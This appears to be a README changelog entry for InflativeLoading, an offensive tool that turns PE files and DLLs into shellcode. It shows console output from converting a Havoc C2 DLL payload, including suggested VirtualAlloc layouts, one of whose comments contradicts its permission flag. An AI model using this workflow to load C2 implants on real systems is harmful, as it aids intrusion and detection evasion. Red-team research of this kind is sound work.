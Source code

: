 
### 4/11/2024 Added Support For Unmanaged DLL
After the update, unmanaged DLLs can also be converted to PIC shellcode. Test cases for custom DLLs, Havoc stageless DLL payload, and CobaltStrike stageless DLL payload are passed.

```powershell
PS C:\Users\Administrator\Desktop\dev\inflativeloading> .\DumpPEFromMemory.exe .\havocdll.dll havocdll.bin
[+] The file is a DLL file
[+] Image base of mapped .\havocdll.dll is 0x1a730000
[+] e_lfanew of mapped .\havocdll.dll is 0x80
[+] imageSize of mapped .\havocdll.dll is 0x1e000
[+] Size of optinalHeader of mapped .\havocdll.dll is 0xf0
[+] Offset of section Header of mapped .\havocdll.dll is 0x188
[+] Size of text section of mapped .\havocdll.dll is 0x18000
[+] Size of other sections of mapped .\havocdll.dll is 0x5000

[!] Suggested memory allocations, please adjust accordingly with other memory allocation APIs and languages

// Allocate memory with RX permission for shellcode stub
LPVOID buffer = VirtualAlloc(NULL, 0x1000, 0x3000, 0x20);
// Allocate memory with RW permission for PE Header
VirtualAlloc(buffer + 0x1000, 0x1000, 0x3000, 0x04);
// Allocate memory with RX permission for text section
VirtualAlloc(buffer + 0x2000, 0x18000, 0x3000, 0x20);
// Allocate memory with RW permission for other sections
VirtualAlloc(buffer + 0x2000 + 0x18000, 0x5000, 0x3000, 0x20);

[+] Data successfully written to havocdll.bin
PS C:\Users\Administrator\Desktop\dev\inflativeloading> python .\InflativeLoading.py -f .\havocdll.bin -e true -o false -b havocdllsc.bin

██╗███╗   ██╗███████╗██╗      █████╗ ████████╗██╗██╗   ██╗███████╗
██║████╗  ██║██╔════╝██║     ██╔══██╗╚══██╔══╝██║██║   ██║██╔════╝
██║██╔██╗ ██║█████╗  ██║     ███████║   ██║   ██║██║   ██║█████╗
██║██║╚██╗██║██╔══╝  ██║     ██╔══██║   ██║   ██║╚██╗ ██╔╝██╔══╝
██║██║ ╚████║██║     ███████╗██║  ██║   ██║   ██║ ╚████╔╝ ███████╗
╚═╝╚═╝  ╚═══╝╚═╝     ╚══════╝╚═╝  ╚═╝   ╚═╝   ╚═╝  ╚═══╝  ╚══════╝

    ██╗      ██████╗  █████╗ ██████╗ ██╗███╗   ██╗ ██████╗
    ██║     ██╔═══██╗██╔══██╗██╔══██╗██║████╗  ██║██╔════╝
    ██║     ██║   ██║███████║██║  ██║██║██╔██╗ ██║██║  ███╗
    ██║     ██║   ██║██╔══██║██║  ██║██║██║╚██╗██║██║   ██║
    ███████╗╚██████╔╝██║  ██║██████╔╝██║██║ ╚████║╚██████╔╝
    ╚══════╝ ╚═════╝ ╚═╝  ╚═╝╚═════╝ ╚═╝╚═╝  ╚═══╝ ╚═════╝

Author: Senzee
Github Repository: https://github.com/senzee1984/InflativeLoading
Twitter: senzee@1984
Website: https://winslow1984.com
Description: Dynamically convert a native PE to PIC shellcode
Attention: Bugs are expected, more support and improvements are coming!



[!] The offset to NT header is 0x80


[+] Shellcode Stub size: 850 bytes
[+] Generating NOP-like instructions to pad shellcode stub up to 0x1000 bytes
[!] Shellcoded PE's size: 126976 bytes


```
